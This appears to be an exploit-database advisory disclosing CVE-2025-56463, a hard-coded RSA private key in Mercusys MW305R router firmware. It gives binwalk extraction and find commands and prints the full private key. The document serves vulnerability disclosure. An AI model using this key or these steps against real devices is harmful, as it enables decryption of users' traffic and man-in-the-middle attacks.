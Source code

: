 # Exploit Title: Private Key Stored in Cleartext on Mercusys MW305R Firmware
# Date: 2025-09-25
# Exploit Author: Matei Josephs
# Vendor Homepage:[https://www.mercusys.com/]
# Version: DMW305R(EU)_V3.30_1.11.2 Build 241223
# CVE : CVE-2025-56463

Introduction
=================
This vulnerability exists in Mercusys MW305R due to hard-coded private key stored in plaintext within the device firmware. An attacker with physical access could exploit this vulnerability by extracting the firmware and analyzing the binary data to retrieve private key stored in the firmware of the targeted device. Successful exploitation of this vulnerability could allow the attacker to perform unauthorized decryption of sensitive data and Man-in-the-Middle (MitM) attacks on the targeted device.

Proof of Concept
=================

1. Download the firmware from [https://www.mercusys.com/en/download/mw305r/#Firmware]
2. Run ```binwalk -Me mw305v3-up-noboot_2024-12-23_16.30.47.bin```
3. Run ```find extractions * | grep 'pem'``` and observe the following files:

```                               
extractions/mw305v3-up-noboot_2024-12-23_16.30.47.bin.extracted/17F500/decompressed.bin.extracted/E6E7/pem.crt
extractions/mw305v3-up-noboot_2024-12-23_16.30.47.bin.extracted/190418/decompressed.bin.extracted/2185/pem.key
extractions/mw305v3-up-noboot_2024-12-23_16.30.47.bin.extracted/189312/decompressed.bin.extracted/1A8E6/pem.crt
extractions/mw305v3-up-noboot_2024-12-23_16.30.47.bin.extracted/189312/decompressed.bin.extracted/1BF09/pem.crt
extractions/mw305v3-up-noboot_2024-12-23_16.30.47.bin.extracted/17F500/decompressed.bin.extracted/E6E7/pem.crt
extractions/mw305v3-up-noboot_2024-12-23_16.30.47.bin.extracted/190418/decompressed.bin.extracted/2185/pem.key
extractions/mw305v3-up-noboot_2024-12-23_16.30.47.bin.extracted/189312/decompressed.bin.extracted/1A8E6/pem.crt
extractions/mw305v3-up-noboot_2024-12-23_16.30.47.bin.extracted/189312/decompressed.bin.extracted/1BF09/pem.crt
```

4. Print the content of one of the .key files:

```
-----BEGIN RSA PRIVATE KEY-----
MIIBOQIBAAJBALPoPA3V2dkOJlZuH2gkTA7hoCAz6/u8lp7z51qEzFLRZA9Csysz
GEfKhGuTIo/ampSQPiCFQgoTF8h9vYmyIHsCAwEAAQJANBdqTBc/nLmcICqCrYTV
APoTgz+FdL6GXkABHRSWlOPPU77+TYUvWa0prqeHsw9NsLhmY3DLQMt6plc2hwfw
AQIhAOzGkPBqtxbVJvEijU0neSC0oOWN1bqECp9RW2ze2uY7AiEAwoOk/3QGn+Xz
ZSZBG2qpIPGNeCS4ZZ0J0778zJcAysECIBdGJXUcaEbcSOmnBdCxspxeZPpriLi+
xfSHIL+A4G+FAiB+7gTnpcEE6rtvkA0AZRPEqZvVgLDLrjRRdtnkb81WgQIgV4wR
LynXZnhQaaT8oyKL1VKhgNIQp7rH3zNZ5oMvkG8=
-----END RSA PRIVATE KEY-----
```

